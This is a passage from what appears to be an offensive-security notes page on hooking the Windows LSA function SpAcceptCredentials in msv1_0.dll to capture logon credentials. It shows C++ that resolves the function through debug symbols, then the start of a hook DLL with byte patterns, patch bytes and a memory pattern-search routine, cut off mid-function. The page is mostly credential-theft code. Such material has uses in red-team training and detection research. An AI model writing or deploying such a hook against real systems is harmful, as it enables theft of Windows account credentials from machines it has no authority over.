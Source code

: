 ![](../../.gitbook/assets/lsaaplogonuserex2.gif)

## SymFromName

It's possible to resolve the `SpAcceptCredentials` function address if we have access to debugging symbols like so:

```cpp
HMODULE targetModule = LoadLibraryA("msv1_0.dll");
PCSTR symbolName = "msv1_0!SpAcceptCredentials";
ULONG64 buffer[(sizeof(SYMBOL_INFO) + MAX_SYM_NAME * sizeof(TCHAR) + sizeof(ULONG64) - 1) /	sizeof(ULONG64)] = {};
PSYMBOL_INFO symbol = (PSYMBOL_INFO)buffer;
symbol->SizeOfStruct = sizeof(SYMBOL_INFO);
symbol->MaxNameLen = MAX_SYM_NAME;
SymSetOptions(SYMOPT_EXACT_SYMBOLS);
SymInitialize(GetCurrentProcess(), "C:\\programdata\\dbg\\sym", TRUE);
SymFromName(GetCurrentProcess(), symbolName, symbol);
```

![](<../../.gitbook/assets/image (484).png>)

## Code

{% code title="SpAcceptCredentialsHook.dll" %}
```cpp
#include "stdafx.h"
#include <iostream>
#include <Windows.h>
#define SECURITY_WIN32
#include <Sspi.h>
#include <ntsecapi.h>
#include <ntsecpkg.h>

using _SpAcceptCredentials = NTSTATUS(NTAPI *)(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials);
char startOfPatternSpAccecptedCredentials[] = { 0x48, 0x83, 0xec, 0x20, 0x49, 0x8b, 0xd9, 0x49, 0x8b, 0xf8, 0x8b, 0xf1, 0x48 };
char bytesToPatchSpAccecptedCredentials[12] = { 0x48, 0xb8 };
PVOID patternStartAddressOfSpAccecptedCredentials = NULL;
PVOID addressOfSpAcceptCredentials = NULL;
char bytesToRestoreSpAccecptedCredentials[12] = { 0 };
void installSpAccecptedCredentialsHook();

PVOID GetPatternMemoryAddress(char *startAddress, char *pattern, SIZE_T patternSize, SIZE_T searchBytes)
{
	unsigned int index = 0;
	PVOID patternAddress = NULL;
	char
		*patternByte = 0,
		*memoryByte = 0;
	do
	{
		if (startAddress[index] == pattern[0])
		{
			for (size_t i = 1; i < patternSize; i++)
			{
				*(char *)&patternByte = pattern[i];
				*(char *)&memoryByte = startAddress[index + i];

				if (patternByte != memoryByte)
				{
```